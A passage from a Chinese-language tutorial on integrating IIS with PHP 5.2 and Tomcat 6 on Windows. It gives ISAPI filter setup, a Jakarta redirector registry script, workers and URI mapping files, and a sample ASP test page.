

点击“下一步”，在“别名”中输入“asp”，点击“下一步”，在目录中浏览选择“E:\Web\asp”。然后一直下一步就可以了。新建虚拟目录 php 和 jsp 的操作类似，不再重复。

### 2、php 环境的配置

我们这里使用“绿色版”的 php，就是非安装版的；我们需要手工修改配置文件完成环境配置。首先将 php5.2.2 解压到 E:\Web\php_5.2.2 文件夹中，然后将文件 php.ini-recommended 名称后面的 -recommended 去掉，并把这个 php.ini 复制到 %systemroot%，它就是 php 环境的主配置文件。双击使用记事本打开 php.ini，Ctrl+F 搜索，在“查找内容”中输入 extension_dir，将后面双引号中的内容修改为 php 目录下的 ext 文件夹的路径，如图 5。

接着将 php5ts.dll 复制到 %systemroot% 或者 %systemroot%\system32 目录下（似乎是只要 path 变量指定的路径就可以），如果要支持 mysql 等数据库，需要将相应的 dll 文件复制到和 php5ts.dll 相同目录下，比如 php_mysql.dll、php_mysqli.dll 和 libmysql.dll。



图 5 修改 extension_dir 值

### 3、jdk 及 Tomcat 的安装

关于 JDK 的安装没有什么特别说明的地方，就是选安装路径之类的，但是需要注意的是，在安装 Tomcat 之前一定要先安装 JDK，否则不会成功。jdk 安装成功后会增加一个名为 java_home 的环境变量，我们可以在 cmd 下使用 set java 检查是否添加了此环境变量，如图 6。



图 6 检查 java_home 变量

如果没有添加 java_home，我们可以手动添加。右击“我的电脑”并选择“属性”，在“高级”选项卡中点击“环境变量”按钮。在弹出的“环境变量”对话框中分为用户变量和系统变量，我们要添加的是系统变量。点击系统变量下面的“新建”，在变量名处输入 java_home，在变量值中输入 jdk 的安装路径，如图 7。



图 7 添加 java_home 变量

至此 jdk 就安装成功了。

本例中使用的 Tomcat 仍然是绿色软件，将 Tomcat 6 解压到 E:\Web\apache-tomcat-6.0.14 中。安装版的 Tomcat 将 Tomcat 作为一个服务执行，而使用解压缩版的我们需要设置一个环境变量，名称为 catalina_home，值为 Tomcat 6 的安装目录。我的示例就是 catalina_home=E:\Web\apache-tomcat-6.0.14，具体设置方法就不再赘述了。设置完环境变量，Tomcat 就算配置完了，我们测试一下是否配置成功。在 cmd 中使用 cd 命令转到 E:\Web\apache-tomcat-6.0.14\bin 下，输入 catalina start，如果配置成功的话会弹出一个新的标题为 Tomcat 的 cmd 窗口，并出现如图 8 中的信息。

打开 IE 或 Firefox，在地址栏中输入 http://localhost:8080，就可以看到 Tomcat 6 的欢迎页面，如图 9。

至此，需要安装的软件及环境基本上都搭建好了，为了实现最后的目标，我们要将这彼此分离的三部分：IIS、PHP 及 Tomcat 进行整合。



图 8 启动 Tomcat



图 9 Tomcat 6 的欢迎界面

## 三、IIS 与 php、jsp 环境的连接

写到这里突然领会到，其实 IIS 对于 php 和 jsp 脚本来说就充当了一个处理客户端发送的请求的 Web 服务器而已。根据管理员的设置，对客户端的不同请求做不同的处理：如果是 asp 脚本的请求，可以直接解释并返回结果给客户端浏览器；如果是对 php 或 jsp 的请求，则将请求转发给 php 或 Tomcat 解析并等待响应；然后将结果发送回去，这里 IIS 扮演的就是一个中转站的角色。要使 IIS 具有以上所述的功能，其实只要一个类似于插件的小程序加上合理的配置就可以了。本篇文章中类似这样的解释性的文字是出于太多的操作会让大家头晕的担心，这样我们可以从全局或者说大体上了解究竟是如何实现的，而不必关注细节。理解了过程，再反复做两次，就可以算掌握了。

### 1、使 IIS 支持 php 脚本的执行

仍然打开 IIS，在你的站点上点击右键并选择“属性”，在对话框中首先点击“ISAPI 筛选器”选项卡，点击“添加”按钮，在“筛选器名称”中输入 PHP，“可执行文件”浏览到 php 环境目录下的 php5isapi.dll。我这里 php 的版本是 5.2.2，所以在一些 dll 文件名中都使用的是 5，你应根据你的 php 版本选择合适的配置文件，如图 10。

然后确认添加，再转到“主目录”选项卡，点击靠下的“配置”按钮，会弹出“应用程序配置”的对话框；在“映射”选项卡中点击“添加”按钮。“可执行文件”仍然浏览到 php5isapi.dll，“扩展名”中输入 .php，其他选项保持默认就可以了，如图 11。



图 10 为 php 添加筛选器

确认首页文件。打开“文档”选项卡，勾选“启用默认文档”，点击“添加”按钮添加 index.php，具体操作不再截图演示。然后一路确定下去应用修改生效，直到重新启动你的站点。如果配置成功了，在刚刚的“ISAPI 筛选器”中的 PHP 筛选器的状态会显示一个向上的绿色箭头，在“详细信息”中显示“已加载”，如图 12。





具体测试我们留到最后进行，要对自己有信心。下面我们来整合 IIS 和 Tomcat，这才是本文最重要的部分，相对于前面也要稍微麻烦一些，我是说稍微。

### 2、整合 IIS 和 Tomcat

如果你在前面已经启动了 Tomcat，那可以在刚才的 cmd 中输入 catalina stop 来关闭它。开发 Tomcat 的 Apache 为“雄猫”开发了一系列的用于其它 Web 服务器的插件，它们（及源码）都可以在 Tomcat 的官方网站（tomcat.apache.org）上免费得到。针对 IIS 的连接插件文件为 isapi_redirect.dll，光盘里有的。首先我们在 E:\Web 下新建一个文件夹 temp，然后把 isapi_redirect.dll 复制到该文件夹。要想使 IIS 能找到 Tomcat 的第一步，就是把 isapi_redirect.dll 这个文件作为筛选器添加到 IIS 中，方法同上，筛选器名称随便，不过最好是一个有意义的名字。添加了筛选器还不行，我们还需要在 IIS 的站点上添加一个虚拟目录，至于原因一会儿就知道了。

添加虚拟目录的操作我就不具体演示了，虚拟目录名称的设置规则同上，我这里设置为 jakarta（这是推荐名称，网上很多文章都使用的这个名字，而且有的文章说必须是这个名字。但我实验的结果是使用其它名称也可以，也许是操作系统和版本的原因吧），本地目录映射到 isapi_redirect.dll 所在的文件夹，我这里是 E:\Web\Temp。添加完虚拟目录后我们需要设置它的属性：在“虚拟目录”选项卡的“执行权限”下拉菜单中选择“脚本和可执行文件”，如图 13。



接着写一个注册表脚本，内容如下：

```txt
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Apache Software Foundation\Jakarta Isapi Redirector\1.0]
"extension_uri"="/jakarta/isapi_redirect.dll"
"log_file"="E:\\Web\\apache-tomcat-6.0.14\\logs\\jk-isapi.log"
"log_level"="debug"
"worker_file"="E:\\Web\\apache-tomcat-6.0.14\\conf\\workers.properties"
"worker_mount_file"="E:\\Web\\apache-tomcat-6.0.14\\conf\\uriworkermap.properties"
```

其中 extension_uri 指定访问 isapi_redirect.dll 文件的 URI，jakarta 是虚拟目录名，这个名称要与你命名的虚拟目录名相同，在该目录下应包含 isapi_redirect.dll 文件；log_file 指定插件使用的日志文件，log_level 为插件的日志级别，可选值有 debug、info 和 error 等；worker_file 指定插件的工作文件，worker_mount_file 指定插件的 URL 映射文件，这个文件中包含了需要用 Tomcat 处理的 URL 集合。

前面之所以要把虚拟目录 jakarta 的执行权限设置为“脚本和可执行文件”，就是为了让注册表中设置的 extension_uri 的 jakarta/isapi_redirect.dll 被执行。如果不修改访问权限，用户将无法正常访问 jsp 脚本或 Servlet。而这时候 jakarta 在 Web 上是可见的了，因此建议不要再在这个目录中放其它文件，尤其是携带隐私信息的文件。

到现在为止剩下的就只有那两个工作文件了。解压缩后的 Tomcat 目录下默认有一个 conf 目录，这里存放的是 Tomcat 的配置文件，workers.properties 和 uriworkermap.properties 一般都放在这个目录下。先来看第一个文件中的内容（这里只列出部分主要内容，完整文件见光盘）：

```txt
# 让插件知道 Tomcat 的路径
workers.tomcat_home=E:\Web\apache-tomcat-6.0.14

# 让插件知道 JDK 的安装路径
workers.java_home="D:\program files\Java\jdk1.6.0"

# 指定文件路径分割符
ps=\

# worker.list=ajp13
worker.list=ajp12,ajp13

worker.ajp12.port=8007
worker.ajp12.host=localhost
worker.ajp12.type=ajp12
worker.ajp12.lbfactor=1

# 工作端口，若没启用则不用修改。默认为 8009
worker.ajp13.port=8009

# Tomcat 服务器的地址
worker.ajp13.host=localhost

# 类型
worker.ajp13.type=ajp13

# 负载平衡因数
worker.ajp13.lbfactor=1
```

其中 # 号后面的是注释，其中很多内容我也不是很明白，我们暂时就不必知所以然了。大家需要设置的主要是前两个路径，根据你的具体情况而定。AJP 是为 Tomcat 与 HTTP 服务器之间通信而定制的协议，我们不必了解它的实现细节，暂时会用就可以了。8009 端口就是插件和 Tomcat 通信的端口，这个端口也是可以更改的。在 conf 目录下有一个 server.xml 文件，它是 Tomcat 的主配置文件。介绍就到这儿，我们继续来看 uriworkermap.properties 文件中应该都包含什么内容：

```txt
/*.jsp=ajp13
/myFirstJ2EE/*=ajp13
/cybbs=ajp13
/cybbs/*=ajp13
/jsp/*=ajp13
```这个是我的文件中的内容，你根据自己的需要自己定义，但是里面的内容代表什么意思呢？正如我前面所说过的，uriworkermap.properties 中包含的 URL 是 IIS 需要转发给 Tomcat 处理的。第一个“/”代表网站根目录，`/*.jsp=ajp13` 代表客户端浏览器对网站下所有后缀为 jsp 的脚本的访问都交给 Tomcat 处理，比如 `http://localhost/test.jsp`、`http://localhost/nohack/mine.jsp`，如果你要使用 Servlet，则可以写成 `/myFirstJ2EE/*=ajp13`，这样所有 URL 中第二级目录为 myFirstJ2EE 的请求都将转发给 Tomcat，注意大小写敏感。大家只要按照这种格式编写适合自己需要的 URL 就可以了。

别以为这样就结束了，这时候的状态是 IIS 和 Tomcat 共存，它们分别有自己的默认网站根目录。如果你通过 80 端口访问的是 jsp 脚本或 Servlet，而它们又不在 Tomcat 所设置的根目录或者 Web 应用中，那照样无法成功返回结果的。这时候有两种解决方案：第一是修改 Tomcat 的网站根目录，第二就是部署一个 Web 应用，我们选择第二种方案。

在 `%catalina_home%\conf` 下新建一个文件夹 catalina，再在 catalina 中新建文件夹 localhost。前面已经在 IIS 中添加了一个名字为 jsp 的虚拟目录，我们就将 jsp 所映射的本地目录也作为一个 jsp/Servlet 的本地应用。在 localhost 文件夹中新建文件 `jsp.xml`，文件内容为：

```xml
<Context crossContext="true" debug="5" docBase="E:\web\jsp" path="/jsp" reloadable="true"/>
```

注意大小写敏感，这里我们需要注意的只有 docBase 属性，它指定了该 Web 应用映射的本地目录，而 URL 就是文件名所指定的 jsp。这其实和我们在 IIS 上设置虚拟目录是一个意思，但细节上就有很大的差异了。

## 四、测试

终于配置完成了，下面的工作就是测试了。重启 IIS 和 Tomcat，分别写三个文件：index.asp、index.php 和 index.jsp，并放入对应的 asp、php 和 jsp 虚拟目录下。前两个文件我们已经在 IIS 中设置过默认主页，而 index.jsp 则是 Tomcat 默认的首页文件，因此我们不需要输入文件名，只要访问相应的虚拟目录就可以了。文件内容将在下面分别给出。

### 1、ASP 环境测试

index.asp:

```asp
<html>
<head><title>ASP DEMO</title></head>
<body>
<%
    Dim hw
    hw="and ASP"
    response.write("Hello, World")
%>
&nbsp;<%=hw%><br>
当前时间为：<%=time()%>
</body>
</html>
```

访问结果如图 14。

### 2、PHP 环境测试
